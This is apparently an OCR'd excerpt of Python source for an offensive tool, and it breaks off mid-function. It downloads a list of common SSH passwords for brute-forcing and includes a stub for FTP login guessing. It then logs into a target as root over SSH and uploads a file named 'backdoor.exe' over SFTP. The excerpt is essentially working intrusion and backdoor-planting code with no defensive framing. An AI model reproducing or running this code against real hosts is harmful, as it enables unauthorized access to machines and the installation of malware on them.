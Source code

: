
def download_ssh_passwords(filename):
    """
     Downloads most commonly used ssh passwords from a specific url
      Clearly, you can store passwords in a dictionary, but i found this more comfortable
    Args:
        filename - Name to save the file as.
    """

    # TODO:130 This wordlist contains only few passwords. You would need a bigger one for real bruteforcing. \_(OwO)_/

    logger.debug("Downloading passwords...")
    url = "https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt"
    urllib.request.urlretrieve(url, filename)
    logger.debug("Passwords downloaded!")


def connect_to_ftp(host, username, password):
    # TODO:30 : Finish this function + Add bruteforcing
    try:
        ftp = FTP(host)
        ftp.login(username, password)
    except ftplib.all_errors as error:
        logger.error(error)
        pass


def connect_to_ssh(host, password):
    """
    Tries to connect to a SSH server
    Returns:
        True - Connection successful
        False - Something went wrong
    Args:
        host - Target machine's IP
        password - Password to use
    """

    # TODO:120 Pass usernames to the function too

    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        logger.debug("Connecting to: " + host)
        client.connect(host, 22, "root", password)
        logger.debug("Successfully connected!")

        sftp = client.open_sftp()
        sftp.put('backdoor.exe', "destination") # change this.

